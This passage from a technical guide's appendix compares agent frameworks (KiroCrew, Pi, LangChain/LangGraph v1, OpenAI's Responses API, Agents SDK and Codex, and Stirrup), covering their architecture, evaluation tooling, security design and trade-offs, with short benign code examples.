The CLI is a thin loop over an agent specification. Agents are declared as JSON in `~/.kiro/agents/*.json` and invoke each other through a standard MCP dispatch tool, while tool permissions, memory writes, and subagent dispatch all live in the gateway and the shared SQLite stores. That is why adding a new agent is a JSON edit rather than a code change. The desktop surface is another client of the same substrate rather than a separate system, with skills in `.kiro/skills`, steering in `.kiro/steering`, and session state under `~/.kiro/sessions/`, so an action taken in the IDE lands in the same tables as one taken from the CLI or from an unattended cron job.

KiroCrew evaluates work items rather than models, and it keeps the judgment out of the model. The conductor agent's rule is that acceptance is the evaluator's verdict, never its own reading of a child session's transcript. The verdict comes from `accept_eval.py` in the `goal-conductor` skill. The script reads typed acceptance specs on stdin, with kinds such as `pr_checks`, `file`, and `human_approval`, and returns `pass`, `fail`, `pending`, `refused`, or `error` with evidence for each item. Its security invariant is that no model-authored argv reaches a subprocess, so a spec can name a check but never a command. Research campaigns follow the same pattern. When `brief.md` defines a Definition of Done, each cycle records `verification: {passed, detail}`, and the campaign completes when `passed` is true. The Auto-Improvement app applies the most statistical discipline. It calibrates a metric and proves it against a known win before a run starts. It then measures every candidate A/B or RED/GREEN and keeps a change only when the win clears the measured noise band. KiroCrew has no general dataset-and-grader runner for offline regression suites, so you bring that yourself.

The unifying property is that memory, permissions, and sandboxing are all local, inspectable, and file-backed, using SQLite databases you can query, JSON files you can edit, and macOS Seatbelt profiles constraining per-execution filesystem writes. No cloud state can fall out of sync, so an agent that wakes on a timer can trust the state it wrote the day before, and scheduled self-continuing loops work. Signed capability tokens, per-execution sandboxes, editable file-backed memory, and scheduled wakeups are what make a local-first agent usable.

## A.4 Pi

Pi from Earendil Works is a minimal, extensible agent for the terminal under MIT, and its stated goal is to let you adapt Pi to your workflow rather than the reverse. It is a monorepo of separable packages, which is its most distinctive property.

| Package           | What it is                                           |
| ----------------- | ---------------------------------------------------- |
| `pi-coding-agent` | The interactive CLI                                  |
| `pi-agent-core`   | Agent runtime with tool calling and state management |
| `pi-ai`           | Unified multi-provider model API                     |
| `pi-tui`          | Terminal UI library with differential rendering      |
| `pi-durable`      | Durable conversation, task, and document runtime     |
| `pi-telemetry`    | Vendor-neutral telemetry contracts and typed schemas |
| `chord`           | Application-composition runtime for services and RPC |

<div class="diagram fig-split">
<div class="figure-inline">

</div>
<div class="fig-arch">
<div class="diagram-stack">
<div class="layer"><div class="layer-title">Run modes</div><span class="chip">interactive TUI</span><span class="chip">print</span><span class="chip">JSON</span><span class="chip">RPC</span><span class="chip">TypeScript SDK</span></div>
<div class="v-arrow">↓</div>
<div class="layer primary"><div class="layer-title">pi-coding-agent</div><span class="chip">built-in tools</span><span class="chip">extensions</span><span class="chip">skills</span><span class="chip">prompt templates</span><span class="chip">themes</span></div>
<div class="v-arrow">↓</div>
<div class="grid-3">
<div class="layer aws"><div class="layer-title">pi-agent-core</div>loop, tools, state</div>
<div class="layer aws"><div class="layer-title">pi-ai</div>providers, caching, faux provider</div>
<div class="layer aws"><div class="layer-title">pi-tui</div>differential rendering</div>
</div>
<div class="grid-3">
<div class="layer"><div class="layer-title">pi-durable</div>conversations and tasks</div>
<div class="layer"><div class="layer-title">pi-telemetry</div>typed schemas</div>
<div class="layer"><div class="layer-title">packages/evals</div>vitest-evals, paired runs</div>
</div>
<div class="layer warn"><div class="layer-title">Containment is yours</div><span class="chip">Gondolin micro-VM</span><span class="chip">Docker</span><span class="chip">OpenShell</span></div>
</div>
</div>
</div>

Extend Pi with TypeScript extensions, skills, prompt templates, and themes, and drive it interactively, in print mode, in JSON mode, in RPC mode, or through the TypeScript SDK. It requires Node 22.19 or newer. Pi is explicit about its boundaries, shipping no permission system and documenting containerization patterns instead, which is the case section 9 describes.

Pi keeps its evals in the monorepo as `packages/evals`, built on `vitest-evals`, and the design encodes several of the disciplines from section 10. Host evals run with `npm run eval:host`. Documentation-lift evals run with `npm run eval:docs`, which executes each case in two fresh containers, one with Pi's documentation and one without, and `--runs-per-variant` sets the repetitions. The report pairs the two arms and computes lift. It withholds the headline pass rate when any pair lacks a score, treats missing telemetry as unavailable rather than zero, and flags saturated controls and flaky cases. Eval definitions and fixtures become unreadable once the harness drops to an unprivileged user, so the agent cannot read its own grader. Each case is an ordinary `describeEval` suite with a judge such as `StructuredOutputJudge`. Below the eval layer, `fauxProvider()` in `pi-ai` scripts model responses, including tool calls and thinking blocks, for deterministic tests with no network.

It has the best extension model of the seven and a modular package split, so you can take `pi-ai` or `pi-tui` on their own without the rest. Its supply-chain hardening is worth copying. The costs are that first-party packages are TypeScript only, there is no sandboxing out of the box, and the whole thing is coding-agent-shaped, so a non-coding agent fits less naturally. Pick it when you want a terminal coding agent you will extend heavily, or a clean multi-provider model API with no framework attached.

## A.5 LangChain and LangGraph v1

LangChain v1 and LangGraph v1 shipped as a pair, and the split between them is now clean. LangChain gives you a ready-made agent loop, and LangGraph gives you the graph runtime that loop executes on.

```python
from langchain.agents import create_agent

agent = create_agent(
    model="claude-sonnet-4-6",
    tools=[search_web, analyze_data, send_email],
    system_prompt="You are a helpful research assistant.",
)
```

<div class="diagram fig-split">
<div class="figure-inline">

</div>
<div class="fig-arch">
<div class="diagram-stack">
<div class="layer primary"><div class="layer-title">create_agent(model, tools, system_prompt)</div><span class="chip">langchain v1</span></div>
<div class="v-arrow">↓</div>
<div class="layer"><div class="layer-title">Middleware hooks, in call order</div><span class="chip">before_agent</span><span class="chip">before_model</span><span class="chip">wrap_model_call</span><span class="chip">wrap_tool_call</span><span class="chip">after_model</span><span class="chip">after_agent</span></div>
<div class="layer"><div class="layer-title">Prebuilt middleware</div><span class="chip">PIIMiddleware</span><span class="chip">SummarizationMiddleware</span><span class="chip">HumanInTheLoopMiddleware</span></div>
<div class="v-arrow">↓</div>
<div class="layer aws"><div class="layer-title">LangGraph runtime</div><span class="chip">checkpointing</span><span class="chip">streaming</span><span class="chip">interrupts</span><span class="chip">time travel</span><span class="chip">graphs and handoffs</span></div>
<div class="v-arrow">↓ traces</div>
<div class="layer success"><div class="layer-title">Evaluation</div><span class="chip">agentevals</span><span class="chip">openevals</span><span class="chip">LangSmith offline and online</span></div>
</div>
</div>
</div>

Middleware is the defining feature and the best-designed hook system of the seven, exposing `before_agent`, `before_model`, `wrap_model_call`, `wrap_tool_call`, `after_model`, and `after_agent`. Prebuilt middleware covers the common needs, with `PIIMiddleware` redacting or blocking sensitive information, `SummarizationMiddleware` condensing history on a token trigger, and `HumanInTheLoopMiddleware` requiring approval on named tools with approve, edit, or reject. Because `create_agent` is built on LangGraph you inherit persistence through checkpointing, streaming, human-in-the-loop pauses, and time travel without learning LangGraph itself.

Standard content blocks give provider-agnostic access to reasoning, citations, and built-in tools. Structured output now generates in the main loop instead of in an extra model call. The namespace shrank, with legacy chains, retrievers, and the indexing API moved to `langchain-classic`.

LangChain splits evals across two open-source packages and one platform. `agentevals` scores trajectories, meaning the ordered messages and tool calls of a run. Its `create_trajectory_match_evaluator` compares a run against a reference trajectory. The modes are `strict`, `unordered`, `subset` for no tools beyond the reference, and `superset` for at least the reference tools.

```python
from agentevals.trajectory.match import create_trajectory_match_evaluator

evaluator = create_trajectory_match_evaluator(trajectory_match_mode="superset")
result = agent.invoke({"messages": [HumanMessage(content="What is the weather in Boston?")]})
evaluation = evaluator(outputs=result["messages"], reference_outputs=reference_trajectory)
assert evaluation["score"] is True
```

The `tool_args_match_mode` setting controls how strictly arguments compare, and `create_trajectory_llm_as_judge` grades the path with a model and needs no reference. `openevals` supplies reference-free judges through `create_llm_as_judge`, and it simulates multi-turn conversations with `create_llm_simulated_user` and `run_multiturn_simulation`. LangSmith adds the lifecycle. Offline experiments run one application version against a dataset of examples with reference outputs, through `evaluate()` or a pytest suite marked `@pytest.mark.langsmith`. Online evaluators score production runs and multi-turn threads with no reference, with the sampling rate, filters, and spend limits set per project. Annotation queues route traces to human reviewers.

This is the largest ecosystem with the best hook design and real graph orchestration when you need it, and it is model-agnostic throughout. The costs are the largest surface area and the most history to navigate, a v0-to-v1 migration that is real work, and middleware flexible enough to hide complexity in six places at once. Pick it when you need explicit state, resumable runs, or human approval gates at named points.

## A.6 OpenAI: Responses, Agents SDK, and Codex

OpenAI offers three surfaces that solve different problems and compose. Know which surface owns which concern before you build, so that you do not rebuild what already ships.

<div class="diagram fig-split">
<div class="figure-inline">

</div>
<div class="fig-arch">
<div class="grid-3">
<div class="layer primary"><div class="layer-title">Responses API</div><span class="chip">input and output items</span><span class="chip">hosted tools, remote MCP</span><span class="chip">previous_response_id</span><span class="chip">server-side compaction</span></div>
<div class="layer aws"><div class="layer-title">Agents SDK</div><span class="chip">handoffs</span><span class="chip">guardrails</span><span class="chip">tracing</span><span class="chip">sandbox agents</span></div>
<div class="layer"><div class="layer-title">Codex</div><span class="chip">--sandbox</span><span class="chip">--output-schema</span><span class="chip">--json</span><span class="chip">resume</span><span class="chip">config.toml providers</span></div>
</div>
<div class="v-arrow">↓ traces</div>
<div class="layer success"><div class="layer-title">Evaluation after 30 November 2026</div><span class="chip">Promptfoo config in the repository</span><span class="chip">improvement loop: traces, feedback, evals, HALO, Codex handoff</span></div>
</div>
</div>

The Responses API is the core primitive, because it runs an agent loop behind one API call. A single `POST /v1/responses` accepts a mixed list of input items covering user messages, prior tool outputs, images, and files, a list of tool declarations that can be your own functions or hosted built-ins or hosted MCP tools the API executes without your process in the loop, a `text.format` for structured outputs, and a `previous_response_id` to chain across turns. The response returns output items covering assistant text, function calls, tool results, and reasoning traces, and if it contains function calls your process handles, you send the results on the next request with the previous response ID set.

Two traps apply. The top-level `instructions` field does not carry across chained turns, so what you set on turn one is not reapplied on turn two merely because you passed a previous response ID, and you must resend it every turn. And chaining does not reduce billing, because prior input tokens are re-billed on every chained call, so a long chain costs quadratically without compaction. The API gives you the loop and the hosted tools. It does not give you orchestration primitives, persistent user-editable memory, or scheduling.

Above that sits the Agents SDK, where handoff primitives, guardrails, tracing, and multi-agent flows live. Its September 2026 update added sandbox agents, which run on local Unix, Docker, and hosted providers including Daytona, E2B, and Modal, with remote mounts from S3 and Azure Blob Storage. The older Agent Builder and prompts surfaces shut down on 30 November 2026.

Codex is the local-execution harness, running on your machine, editing your files, and driving your shell. Where the Responses API is a stateless loop and the Agents SDK is orchestration, Codex is the sandbox and permission model around the local machine. It ships flags built for automation, with `--output-schema` returning validated JSON for typed stage verdicts and chaining into CI, `--sandbox` presets mapping to macOS Seatbelt and Linux Landlock profiles with per-turn escalation, `--json` emitting a JSONL event stream another process can consume, `resume` continuing a multi-stage pipeline from an earlier job's state, and model provider entries in `config.toml` fronting OpenAI, Bedrock, or any OpenAI-compatible endpoint. The most important security rule is this: never put an API key in a job-level environment variable when that job also checks out repository code, and split privilege across jobs so the key-holding job cannot see the code and the code-checkout job cannot see the key. The Codex desktop app is a thin surface over the same runtime, sharing configuration, MCP servers, sandbox profiles, and session storage with the CLI while adding approval prompts and computer-use tooling.

Evals on OpenAI are in transition, and the dates matter. OpenAI deprecated its managed Evals platform on 3 June 2026, including the dashboard, the API, and the graders documented for eval workflows. Existing evals become read-only on 31 October 2026, and the platform shuts down on 30 November 2026. The recommended replacement is Promptfoo, an open-source CLI where an eval lives in `promptfooconfig.yaml` in your repository, runs with `promptfoo eval`, opens with `promptfoo view`, and slots into CI. The migration guide covers recreating each eval by hand, so every grader, and especially every model-judged one, needs revalidation before anyone trusts it for regression decisions. The Agents SDK side stays. Its built-in tracing records model calls, tool calls, handoffs, and guardrails. The May 2026 cookbook on agent improvement loops shows the intended shape. Traces collect human and model feedback, and the feedback becomes generated Promptfoo evals. An optimizer called HALO then ranks the next harness changes, and a `codex_handoff.md` file hands them to Codex to implement behind the eval gate. Codex also ships a Promptfoo plugin for building and maintaining these suites.

A representative production build expresses agent logic as Agents SDK graphs, lands low-level model calls on the Responses API, delegates unattended local work to Codex with per-job sandbox presets, and traces everything through the SDK. Each surface owns a concern the other two are wrong for.

KiroCrew unifies API, CLI, and desktop into one substrate because everything is local. OpenAI keeps three surfaces because the cloud loop, the orchestration layer, and the local sandbox are different concerns.

## A.7 Stirrup

Stirrup from Artificial Analysis is a lightweight framework designed as a starting-point template, in Python and as StirrupJS for TypeScript. Its stated philosophy is to work with the model rather than against it, getting out of the way and letting the model choose its own approach the way Claude Code does, while still providing context management, MCP support, and code execution.

```python
agent = Agent(
    client=client, name="my_agent", max_turns=30,
    tools=None,                          # defaults to default_tools()
    finish_tool=None,                    # defaults to SIMPLE_FINISH_TOOL
    context_summarization_cutoff=0.7,
    recover_from_context_overflow=True,
)
```

<div class="diagram fig-split">
<div class="figure-inline">

</div>
<div class="fig-arch">
<div class="diagram-stack">
<div class="layer"><div class="layer-title">Client</div><span class="chip">ChatCompletionsClient</span><span class="chip">LiteLLMClient</span><span class="chip">your own client</span></div>
<div class="v-arrow">↓</div>
<div class="layer aws"><div class="layer-title">Agent</div><span class="chip">max_turns 30</span><span class="chip">summarize at 0.7</span><span class="chip">overflow recovery</span><span class="chip">finish tool with reason and paths</span></div>
<div class="v-arrow">↓</div>
<div class="layer primary"><div class="layer-title">session()</div><span class="chip">tool lifecycle</span><span class="chip">file upload</span><span class="chip">skills</span><span class="chip">output files</span></div>
<div class="v-arrow">↓</div>
<div class="grid-2">
<div class="layer"><div class="layer-title">Tools</div><span class="chip">code execution: local, Docker, E2B</span><span class="chip">web</span><span class="chip">MCP client</span><span class="chip">custom Tool</span></div>
<div class="layer success"><div class="layer-title">Subagents and metrics</div><span class="chip">agent.to_tool()</span><span class="chip">aggregate_metadata()</span><span class="chip">TokenUsage and timing</span></div>
</div>
</div>
</div>
</div>

The agent loop has a configurable finish tool, and it summarizes at a configurable context fraction with overflow recovery by unwinding turns. Default tools cover local code execution, web search, and fetch. Sessions handle tool lifecycle, file upload, skill loading, and output file saving. Subagents come through `to_tool()` with nesting and file transfer. Clients cover any OpenAI-compatible API and LiteLLM, and a one-method protocol lets you add your own. Every run and every message carries token and timing metadata.

Stirrup ships no evaluation library, which fits its role. Artificial Analysis uses it as the harness inside its own agentic benchmarks. In GDPval-AA, models get shell access and web browsing in a Stirrup loop, and blind pairwise comparisons of their deliverables produce Elo ratings. NVIDIA NeMo Gym wraps it the same way in a `stirrup_agent` for GDPval. What Stirrup gives an eval is clean evidence to grade. The finish tool's `paths` list names the deliverables, `aggregate_metadata` returns token usage and per-tool call counts, and every message carries timing. You bring the tasks, the graders, and the trial runner.

It is the clearest small codebase to learn from, and its message model handles reasoning blocks and provider continuation state more correctly than most large frameworks. Its defaults are documented alongside the reasons for them. Against that, isolation stops at the code-execution backend, which is a local temporary directory by default with Docker and E2B as options. It also has no permission system, no durable execution, no graph orchestration, and a smaller ecosystem. Pick it when you want to read the whole harness in an afternoon, or want a template you will modify rather than a framework you will configure.
